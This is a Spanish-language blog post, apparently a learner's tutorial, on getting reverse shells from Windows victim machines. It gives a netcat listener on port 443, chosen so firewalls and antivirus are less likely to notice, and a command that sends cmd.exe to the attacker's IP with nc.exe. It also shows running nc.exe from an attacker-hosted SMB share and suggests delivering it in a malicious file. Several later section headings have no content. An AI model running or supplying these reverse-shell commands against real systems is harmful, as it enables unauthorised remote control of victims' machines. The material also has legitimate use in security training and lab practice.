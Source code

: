 ```yaml
---
layout: single
title: Reverse Shells en Windows
excerpt: "En este artículo vamos a ver las formas que hay de mandarnos reverse shells cuando la maquina victima es Windows."
date: 2022-08-26
classes: wide
header:
  teaser: /assets/images/web-hacking/reverse-shell-windows/netcat.PNG
  teaser_home_page: true
  icon: 
categories:
  - Windows
tags:  
  - Windows
  - Reverse shell
---
```


He hecho este artículo ya que las `reverse shells` en `Windows` son diferentes a Linux y ya que he empezado a aprender Hacking para Windows, ya que en linux ya soy capaz de resolver maquinas sin ayuda pues se me ha ocurrido hacer este post.

# PONERNOS A LA ESCUCHA: 

Lo primero, antes de mandarnos una consola desde la máquina víctima necesitamos un `puerto` donde estemos `a la escucha` para que nos llegue ahí la shell.

Para esto solemos utilizar el puerto `443/tcp`, ya que es un puerto por el cual se transmiten datos en casos de páginas web, ya que es el puerto por el cual suelen correr los servicios `https`. Por lo tanto, los `firewalls y antivirus` `pueden detectar` datos transmitirse por ese puerto, pero `no le dan importancia`, ya que es normal que se manden datos por ahí. Y, por lo tanto, `somos menos detectables`.

Para esto utilizaremos el siguiente `comando` estando en `root`:

```
> nc -nlvp 443
listening on [any] 443 ...
```

## FORMA MEJORADA

Por lo que he estado viendo hay un comando que funciona mejor ya que nos permite utilizar atajos de teclado como `Ctl+L`:

```
> rlwrap nc -nlvp 443
listening on [any] 443 ...
```

![](/assets/images/web-hacking/reverse-shell-windows/)

# MANDARNOS UNA REVERSE SHELL
## Nc.exe

Este binario es `similar a netcat` en `Linux`, pero este funciona en `Windows`, tanto en 32, como en 64 bits.

Para esto usaremos el siguiente comando:

```
> nc.exe -e cmd.exe <nuestra ip> 443
```

En caso de que no este instalado lo podemos descargar desde: `https://github.com/int0x33/nc.exe/`

Con eso podemos mandarlo en un archivo malicioso y que lo ejecute o que el archivo lo descargue...

Pero también podemos montarnos un servidor SMB y utilizarlo desde ahí poniendo el siguiente comando en la máquina Windows:

```
> \\192.168.118.10\pwned\nc.exe -e cmd.exe <ip> <puerto>
```

## Msfvenom

## Powershell Reverse Shell One-Liner

## Nishang

## ConPtyShell
